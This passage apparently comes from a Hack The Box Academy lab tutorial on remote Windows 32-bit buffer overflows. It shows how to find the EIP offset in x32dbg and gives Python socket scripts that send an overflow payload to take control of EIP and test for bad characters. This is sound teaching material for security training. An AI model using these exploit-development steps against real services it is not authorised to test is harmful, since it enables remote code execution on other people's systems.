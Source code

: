 Once our `eip_offset()` function is ready, we can restart our program in `x32dbg` and run our code, and our program should crash, and we should see `EIP` overwritten with our pattern as `316A4230`: ![Pattern Crash](https://academy.hackthebox.com/storage/modules/89/win32bof\_remote\_pattern\_crash.jpg)

Now we can use `ERC --pattern o 1jB0` to calculate the exact offset, which is found at `1052` bytes:

![Pattern Offset](https://academy.hackthebox.com/storage/modules/89/win32bof\_remote\_pattern\_offset.jpg)

Now to ensure that we can control the exact value at `EIP`, we'll use the same `eip_control()` function from our previous exploit (while changing `offset`), but with using `socket` to send our payload instead of writing it to a file:

Code: python

```python
def eip_control():
    offset = 1052
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

eip_control()
```

We'll once again restart our program and run our exploit, and we can confirm that we control `EIP` as we overwrote `EIP` with 4 `B`'s: ![Pattern Control](https://academy.hackthebox.com/storage/modules/89/win32bof\_remote\_pattern\_control.jpg)

***

### Identifying Bad Characters

Our next step is to identify whether we should avoid using any bad characters in our input. We can start by running `ERC --bytearray` in `x32dbg` to create our `ByteArray_1.bin` file. Then we can copy the same `bad_chars()` functions from our previous exploit, and once again change from writing the payload to a file to sending it to the port:

Code: python

```python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])

    offset = 1052
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

bad_chars()
```
